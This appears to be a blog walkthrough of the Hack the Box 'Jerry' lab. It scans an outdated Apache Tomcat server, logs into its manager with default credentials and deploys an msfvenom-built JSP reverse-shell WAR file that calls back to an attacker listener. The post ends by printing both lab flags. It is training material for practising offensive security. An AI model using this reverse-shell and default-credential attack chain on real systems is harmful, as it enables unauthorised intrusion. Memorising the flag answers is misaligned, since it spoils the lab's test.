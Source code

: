 ```yaml
---
title: Jerry - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Jerry.png
---
```

---
title: Jerry - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Jerry.png
---
---
title: 2024-10-12-Jerry - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Jerry.png
---
![Image](/assets/Jerry.png)

Jerry is a very simple box with the purpose of tasking the attackers to work on basic web-enumeration, unrestricted file upload parameters, and simple payload creation. Let's get to it.

### Reconnaissance

Our Scan: `nmap -sV -sC --open -p- 10.10.10.95`

Our Result:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 20:58 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.42 seconds

```

### Service Enumeration

By the looks of it, we've got one route here. Apache Tomcat is server hosting software, and this version here is pretty outdated and vulnerable. Specifically, we're able to use the /manager/html path to deploy malicious WAR files to the server. All we need are some credentials to access.

When we navigate to the page, we're met with this screen.

![Image](/assets/Screenshot 2024-09-03 at 9.08.45 PM.png)

We can see a manager tab on the left. Rooting around a bit, we can gather some more information about the structure of tomcat configurations. However, when we try to navigate to the /manager/html path, we're prompted with a credential portal. 

Now, I tried a few different default credentials and eventually got a 403_Access_Denied

![Image](/assets/Screenshot 2024-09-03 at 9.12.33 PM.png)

We can see, though, default credentials are given here in plain text. After reinstating the machine and rebooting Firefox, I was able to login again with those.

### Initial Access

Once in, there is good information regarding the name of the machine, services in use, versions, etc. 

![Image](/assets/Screenshot 2024-09-03 at 9.28.44 PM.png)

But, I'm interested in the file upload, as it looks like we have access to gain a shell via malicious files. In order to create one, it'll need to be WAR to fit the server's parameters. 

![Image](/assets/Screenshot 2024-09-03 at 9.29.58 PM.png)

We can use MSFVenom to create one for us, using: 
`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.3 lport=4321 -f WAR -o pwn.war`

This will create what we need, and we can upload it directly into the site. Once deployed, set up a listener for the port that we specified in the file. Once that is set, act on the file via tomcat, and boom. Shell.

![Image](/assets/Screenshot 2024-09-03 at 9.49.20 PM.png)

### Post Exploitation

Now, we've gotta find the flags. Syntax here was a bit new to me, but I figured it out. Here's some tips to remember

```
DIR - Directory listing
MORE - Almost 'cat' equivilent
```

Once you navigate to admin, this is what you find!

```
C:\Users\Administrator\Desktoplags>DIR
DIR
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktoplags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,560,448 bytes free


C:\Users\Administrator\Desktoplags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

C:\Users\Administrator\Desktoplags>

```

#easy #windows #manual 
